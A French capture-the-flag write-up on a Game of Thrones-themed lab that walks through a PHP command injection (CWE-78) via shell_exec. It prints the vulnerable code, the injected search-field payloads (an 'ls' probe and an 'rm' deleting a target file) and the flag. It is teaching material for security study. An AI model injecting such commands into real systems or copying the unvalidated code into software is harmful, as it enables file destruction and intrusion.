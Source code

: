 ```yaml
---
title: CWE-78 - Injection de Commande
prev: "/write-ups/wu6"
---
```


# CTF - Injection de Commande (CWE-78) : Suppression du Rapport Secret  

## Objectif  

Bravo ! Tu as réussi à infiltrer le bureau de Tywin Lannister, où sont stockés les rapports des espions de tout Westeros.  
Parmi eux, un rapport critique détaillant les fortifications de Winterfell est classé dans la bibliothèque de Tywin.  
**Ta mission est de le détruire en exploitant une injection de commande.**  

**Mission : Supprimer le fichier `fortifications_winterfell.pdf`** via une **injection de commande Shell**.

---

## **Environnement**
- **Cible :** `http://lannister.castral-roc.lannisport.south/rapports_espions.php`
- **Répertoire des rapports :** `/var/www/reports/`
- **Fichier à supprimer :** `fortifications_winterfell.pdf`
- **Failles présentes :**  
  - **Injection de commande (`CWE-78`) via `shell_exec()`**  
  - **Aucune validation des entrées utilisateur**  

---
## **Étape 1 : Analyser la vulnérabilité**
Sur la page **`rapports_espions.php`**, il est possible de **rechercher un rapport d’espionnage** en fonction d’un **nom de famille** (Stark, Lannister, Baratheon…).

### **Code vulnérable en PHP**
```php
$report_dir = "/var/www/reports/";

if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST['family'])) {
    $family = $_POST['family'];
    
    // ⚠️ Injection de commande possible ici
    $command = "ls \"$report_dir\"* | grep -i '$family' ";
    $output = shell_exec($command);
    
    if ($output) {
        $files = explode("\n", trim($output));
    } else {
        $files = [];
    }
}
```

## **🔍 Étape 2 : Vérifier l'injection de commande**  

Sur la page **rapports_espions.php**, la barre de recherche permet de filtrer les fichiers en fonction du nom d’une famille. L'application utilise une commande grep vulnérable via shell_exec(), ce qui permet une **injection de commande Shell**.  

### **📌 Test initial : Vérifier si la commande est injectable**  

Dans la barre de recherche, entrez :  stark’; ls -la /var/www/reports/; echo ’


✅ **Si la page affiche la liste des fichiers dans /var/www/reports/, alors l’injection fonctionne.**

### **📜 Explication de l'injection**
- **stark'** → Nom d’une famille valide pour éviter les erreurs.  
- **; ls -la /var/www/reports/;** → Exécute la commande `ls` pour lister tous les fichiers du répertoire des rapports.  
- **`echo '`** → Ferme proprement la commande pour éviter les erreurs d'affichage.  

Si cette requête fonctionne, nous avons la **confirmation** que l'application est vulnérable et que nous pouvons injecter d'autres commandes pour **supprimer le fichier cible**.  


## **💀 Étape 3 : Suppression du rapport classifié**  

Maintenant que nous avons confirmé l'injection de commande, nous allons exploiter cette faille pour **supprimer le rapport des fortifications de Winterfell**.

### **📌 Injection de la commande `rm`**
Dans la barre de recherche, entrez :  lannister’; rm /var/www/reports/fortifications_winterfell.pdf; echo ’

### **📜 Explication du payload**
- **`lannister'`** → Un mot-clé valide pour éviter une erreur dans la commande initiale `grep`.  
- **`; rm /var/www/reports/fortifications_winterfell.pdf;`** → Supprime le fichier cible.  
- **`echo '`** → Ferme correctement la commande pour éviter les erreurs d'affichage.  

✅ **Si la suppression réussit, l’application affichera un flag :**  Flag : WINTERFELL_SECURITY_BREACH


🚀 **Le fichier critique a été détruit, mission accomplie !** 🎯🔥  

## **🕵️ Étape 4 : Vérification de la suppression**  

Pour confirmer que le fichier a bien été supprimé, nous allons exécuter une commande `ls` afin de **vérifier le contenu du répertoire des rapports**.

### **📌 Commande à injecter**
Dans la barre de recherche, entrez :  lannister’; ls -la /var/www/reports/; echo ’

## **🏆 Validation du CTF**  

🚀 **Mission accomplie !** Vous avez exploité une **injection de commande (CWE-78)** pour **supprimer un rapport classifié**.

📌 **Flag :** `WINTERFELL_SECURITY_BREACH` ✅  
📌 **Objectif atteint :** Les fortifications de Winterfell sont protégées ! 🏰🔥  

---

## **🎯 Récapitulatif**  

✔ **Exploitation d’une injection de commande (`CWE-78`)** via `shell_exec()`.  
✔ **Injection de `rm` pour supprimer un fichier sensible.**  
✔ **Vérification de la suppression avec `ls`.**  

🔥 **Félicitations ! Prêt pour la prochaine mission ?** 🚀💀  